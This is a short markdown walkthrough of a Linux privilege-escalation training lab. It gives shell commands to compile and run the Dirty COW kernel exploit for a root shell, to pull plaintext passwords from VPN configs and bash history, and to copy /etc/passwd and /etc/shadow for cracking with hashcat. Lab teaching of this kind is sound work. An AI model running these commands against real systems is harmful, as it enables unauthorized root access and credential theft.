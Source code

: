 # Linux Privilege escalation arena

## Privilege Escalation - Kernel Exploits

First we run Linux exploit suggester as below

```bash
$/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
```

We can see that this kernel is vulnerable to [dirty cow](https://github.com/firefart/dirtycow.git) exploit now we can use this to exploit the system.

```bash
$gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
$./c0w
```

It will take some time to build now in command prompt type **passwd** and voila we get the root shell. After expoit if you want to make the system normal you need to copy the backup passwd binary to /usr/bin directory.

```bash
#cp /tmp/bak /usr/bin/passwd
```

## Privilege Escalation - Stored Passwords

There are newmerous places where passwords can be stored as plain text let us explore

```bash
$cat /home/user/myvpn.ovpn #We have a pointer to the config file from where the system reads the password
$cat /etc/openvpn/auth.txt #We have got the password
$cat /home/user/.irssi/config | grep -i passw
```

Sometimes we may get passwords from history files

```bash
$cat ~/.bash_history | grep -i passw
```

## Privilege Escalation - weak file permission

If we run ```ls -la /etc/shadow``` we can see that we have read permission to the shadow file so we can try to break a system user password by unshadowing the passwd file.

```bash
$cat /etc/passwd #Save the file with a suitable name in your atack box
$cat /etc/shadow #Save this one with a different name in your atack box
 # Then run the below command to unshadow it
 $unshadow <passwd file> <shadow file> > unshadowed.txt
 $hashcat -m 1800 unshadowed.txt /usr/share/wordlists/rockyou.txt #passwords are saved as SHA512 in linux that's why we used 1800 as hash mode.
 ```
